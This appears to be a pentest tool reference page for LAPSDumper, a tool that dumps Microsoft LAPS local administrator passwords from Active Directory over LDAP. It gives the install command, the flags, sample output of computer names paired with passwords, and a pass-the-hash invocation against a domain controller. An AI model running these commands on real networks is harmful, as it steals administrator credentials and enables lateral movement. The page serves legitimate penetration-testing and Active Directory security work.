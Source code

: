 ```yaml
---
title : "LAPSdumper"
# pre : ' '
description : "Dump LAPS Passwords."
date : 2020-12-21T14:32:07+01:00
# hidden : true
# draft : true
weight : 990
tags : ['Other', 'LDAP', 'Active Directory']
---
```


---

Dump LAPS (Microsoft Local Administrator Password Solution) Passwords.

## Installation

```plain
git clone https://github.com/n00py/LAPSDumper
```

## Usage

```plain
laps.py [-h] -u USERNAME -p PASSWORD [-l LDAPSERVER] -d DOMAIN
```

## Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        username for LDAP
  -p PASSWORD, --password PASSWORD
                        password for LDAP (or LM:NT hash)
  -l LDAPSERVER, --ldapserver LDAPSERVER
                        LDAP server (or domain)
  -d DOMAIN, --domain DOMAIN
                        Domain
```

## Examples

```plain
$ python3 laps.py -u user -p password -d domain.local

COMPUTER01$:B#g4%aI$K!yZ)q}
COMPUTER02$:n-6pW-n8L!o8Of]
COMPUTER03$:u2Oc9z&{R)fHA2J
COMPUTER04$:Rwb2#4,{@N4Y19v
COMPUTER05$:17aZ,+1L5L((D0F
COMPUTER06$:DNX&@e.8XTQhyPj
COMPUTER07$:U3ZXf0vX!Xm1P89
COMPUTER08$:.6IvTd7-85ytJeF
COMPUTER09$:P2(VSN4%49!%fI8
```

### Pass-the-Hash specific LDAP server

```plain
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

## URL List

- [GitHub.com - LAPSDumper](https://github.com/n00py/LAPSDumper)
- [n00py.io - Dumping LAPS passwords from Linux](https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/)
- [ADSecurity.org - Microsoft Local Administrator Password Solution (LAPS)](https://adsecurity.org/?p=1790)
- [ADSecurity.org - Microsoft LAPS Security & Active Directory LAPS Configuration Recon](https://adsecurity.org/?p=3164)
